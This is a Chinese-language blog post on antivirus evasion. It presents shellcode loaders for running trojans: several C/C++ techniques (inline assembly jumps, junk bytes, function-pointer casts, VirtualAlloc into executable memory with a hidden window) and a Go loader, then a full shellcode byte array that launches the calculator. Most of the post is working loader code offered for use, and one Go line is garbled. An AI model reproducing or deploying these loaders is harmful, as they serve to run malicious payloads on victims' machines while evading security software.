 ```yaml
---
layout: mypost
title: "免杀的艺术-加载器"
categories: [木马免杀]
---
```


## 定义

啥是个加载器呢，就是现在有一段写好的shellcode，但是它不能被执行，必须有一个东西把它加载到内存中去执行，而不同的语言都会有着不一样的加载器，但其实本质都是一样的，都是一套东西，不管是Nim还是Python本质上还是去调用一些系统的API函数

## C/C++加载

### 嵌入汇编

这个就是个jmp eax，没个啥难理解的

```C
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "你的shellcode";
void main()
{
	__asm
	{

		mov eax, offset shellcode
		jmp eax
	}
}
```

### 汇编花指令

嵌入汇编和花指令都差不多，只不过可能花指令可以做一点混淆吧，但本质上都是一样的，都是jmp eax，但都只能适用于x86的木马的生成

```C
#pragma comment(linker, "/section:.data,RWE")
#include <windows.h>
#include <stdio.h>

unsigned char xff[] = "你的shellcode";
void main()
{
	__asm
	{		
		mov eax, offset xff;
		_emit 0xFF;
		_emit 0xE0;
	}
}
```

### 指针执行

```C
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#include <stdio.h>

unsigned char buf[] =
"你的shellcode";

int main()
{
	
	((void(*)(void)) & buf)();
}
```

### 强制类型转换

```C
#include <windows.h>
#include <stdio.h>

unsigned char buff[] = "你的shellcode";

void main()
{
	((void(WINAPI*)(void)) & buff)();
}
```

上述四种方法都需要将data节的内存设置成可读可写可执行, 以下这段代码的主要作用是在内存中分配一段可执行的内存空间

### 申请动态内存

```C
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//windows控制台程序不出黑窗口

int main()
{
    char shellcode[] = "你的shellcode";
    
    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    
    ((void(*)())exec)();
}
```

## Golang加载

```go
package main

import (
  "syscall"
  "unsafe"
)

const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
)

var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
)

func main() {
  xor_shellcode := []byte{} C#  0xfc，

  addr, _, err := VirtualAlloc.Call(0, uintptr(len(xor_shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&xor_shellcode[0])), uintptr(len(xor_shellcode)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

以上说的这些大家都可以去实战一下，模拟这一块的话，我用的就是一个弹出calc的一个bin去做实验，看是否能成功的，然后接下来去看一下怎么去生成一个自己的shellcode，具体的原理可以看我的下一篇文章，这里就简单用下框架，让大家看个效果即可

## shellcode生成

先看一下这个项目的一个大概，这是个可以生成64位马的项目，其实还是蛮稀缺的，想要的dd我

![](image-1-1024x477.png)

然后F7F5一下，看效果，直接弹计算器哈

![](image-2-1024x675.png)

然后翻release文件夹，看生成的.bin文件

![](image-3.png)

这里不想麻烦的话，直接用个脚本转成.c结尾的文件然后cv

![](image-4.png)

然后将该字节码复制到咱们上面的各种Loader的对应位置去一一尝试即可，比如演示一个用指针加载的

```C
#pragma comment(linker, "/section:.data,RWE") //将data段的内存设置成可读可写可执行
#include <Windows.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
/* length: 276992 bytes */
unsigned char buf[] = {
0xe9,0x0b,0x01,0x00,0x00,0xcc,0xcc,0xcc,0x48,0x8b,0xc4,0x48,0x89,0x58,0x08,0x48,
0x89,0x68,0x10,0x48,0x89,0x70,0x18,0x48,0x89,0x78,0x20,0x41,0x56,0x41,0x57,0x65,
0x48,0x8b,0x04,0x25,0x60,0x00,0x00,0x00,0x44,0x8b,0xf9,0x48,0x8b,0x50,0x18,0x4c,
0x8b,0x72,0x20,0x4d,0x8b,0xc6,0x4d,0x8b,0x48,0x20,0x4d,0x8b,0x00,0x4d,0x85,0xc9,
0x0f,0x84,0x89,0x00,0x00,0x00,0x49,0x63,0x41,0x3c,0x42,0x8b,0x8c,0x08,0x88,0x00,
0x00,0x00,0x85,0xc9,0x74,0x79,0x4d,0x8d,0x14,0x09,0x41,0x8b,0x52,0x0c,0x49,0x03,
0xd1,0x33,0xff,0xeb,0x16,0xc1,0xcf,0x0d,0x41,0x0f,0xbe,0xcb,0x41,0x80,0xfb,0x61,
0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf8,0x48,0xff,0xc2,0x44,0x8a,0x1a,0x45,0x84,
0xdb,0x75,0xe2,0x41,0x8b,0x52,0x20,0x45,0x33,0xdb,0x49,0x03,0xd1,0x45,0x39,0x5a,
0x18,0x76,0x3c,0x8b,0x1a,0x49,0x03,0xd9,0x33,0xf6,0xeb,0x16,0xc1,0xce,0x0d,0x40,
0x0f,0xbe,0xcd,0x40,0x80,0xfd,0x61,0x8d,0x41,0xe0,0x0f,0x4c,0xc1,0x03,0xf0,0x48,
0xff,0xc3,0x40,0x8a,0x2b,0x40,0x84,0xed,0x75,0xe2,0x8d,0x04,0x3e,0x44,0x3b,0xf8,
0x74,0x31,0x41,0xff,0xc3,0x48,0x83,0xc2,0x04,0x45,0x3b,0x5a,0x18,0x72,0xc4,0x4d,
0x3b,0xc6,0x0f,0x85,0x5e,0xff,0xff,0xff,0x33,0xc0,0x48,0x8b,0x5c,0x24,0x18,0x48,
0x8b,0x6c,0x24,0x20,0x48,0x8b,0x74,0x24,0x28,0x48,0x8b,0x7c,0x24,0x30,0x41,0x5f,
0x41,0x5e,0xc3,0x41,0x8b,0x4a,0x24,0x49,0x03,0xc9,0x46,0x0f,0xb7,0x04,0x59,0x41,
0x8b,0x4a,0x1c,0x49,0x03,0xc9,0x42,0x8b,0x04,0x81,0x49,0x03,0xc1,0xeb,0xcb,0xcc,
0x40,0x55,0x48,0x8b,0xec,0x48,0x83,0xec,0x40,0xb9,0x8d,0x10,0xb7,0xf8,0xc7,0x45,
0xf0,0x6b,0x65,0x72,0x6e,0xc7,0x45,0xf4,0x65,0x6c,0x33,0x32,0xc7,0x45,0xf8,0x2e,
0x64,0x6c,0x6c,0xc6,0x45,0xfc,0x00,0xc7,0x45,0xe0,0x63,0x61,0x6c,0x63,0xc7,0x45,
0xe4,0x2e,0x65,0x78,0x65,0xc6,0x45,0xe8,0x00,0xe8,0xba,0xfe,0xff,0xff,0x48,0x8d,
0x4d,0xf0,0xff,0xd0,0xb9,0x7f,0xc0,0xb4,0x7b,0xe8,0xaa,0xfe,0xff,0xff,0xba,0x05,
0x00,0x00,0x00,0x48,0x8d,0x4d,0xe0,0xff,0xd0,0x48,0x83,0xc4,0x40,0x5d,0xc3,0xcc
};
int main()
{
    ((void(*)(void)) & buf)();
    return 0;
}
```

![](image-5-1024x623.png)

嗯嗯就这样吧，睡喽！